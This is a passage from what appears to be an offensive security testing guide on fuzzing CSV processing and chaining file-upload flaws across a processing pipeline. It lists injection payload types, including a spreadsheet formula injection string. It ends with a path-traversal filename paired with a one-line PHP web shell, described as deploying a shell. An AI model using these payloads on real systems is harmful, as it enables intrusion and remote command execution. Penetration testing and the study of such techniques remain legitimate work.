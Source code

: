 CSV fuzzing targets data processing logic:

**CSV Structure Fuzzing**:
```
Field Separator Confusion: Mix comma, tab, semicolon separators
Quote Character Abuse: Unmatched quotes, nested quotes
Line Ending Confusion: Mix Unix, Windows, Mac line endings
Encoding Issues: Mixed character encodings within single file
```

**Injection Payload Testing**:
```
SQL Injection: CSV fields containing SQL commands
Formula Injection: =cmd|'command'!A1 in spreadsheet-processed CSVs
Command Injection: $(command) or `command` in processed fields
LDAP Injection: Special characters affecting LDAP queries
```

**Data Validation Testing**:
```
Oversized Fields: Extremely long CSV field values
Type Confusion: Text in numeric fields, numbers in text fields
Special Characters: Unicode, control characters, null bytes
Buffer Overflow: Fields designed to overflow processing buffers
```

**Business Logic Testing**:
```
Duplicate Headers: CSV files with repeated column names
Missing Required Fields: CSVs missing expected data columns
Invalid Data Ranges: Dates, numbers outside expected ranges
Malicious File References: CSV fields containing file paths
```

CSV injection often provides direct access to backend database and processing systems.

---

## Processing Workflow Exploitation and Code Execution

Individual file format vulnerabilities are useful, but maximum impact requires chaining multiple vulnerabilities across the complete processing pipeline to achieve code execution and data access.

### Multi-Stage Attack Orchestration

File processing pipelines create opportunities for multi-stage attacks where vulnerabilities in different systems combine to provide comprehensive access.

[PLACEHOLDER:CODE Name: Multi-stage file processing attack orchestrator. Purpose: Coordinates file upload attacks across multiple processing systems, chains filename and format vulnerabilities for maximum impact, orchestrates systematic exploitation of complete processing pipeline. Value: High.]

Orchestrate attacks across the complete processing pipeline:

**Stage 1: Initial Access Through Filename Manipulation**
```
Filename: ../../../var/www/html/research/cmd.php.txt
Content: <?php system($_GET['c']); ?>
Result: Web shell deployed to accessible location
```
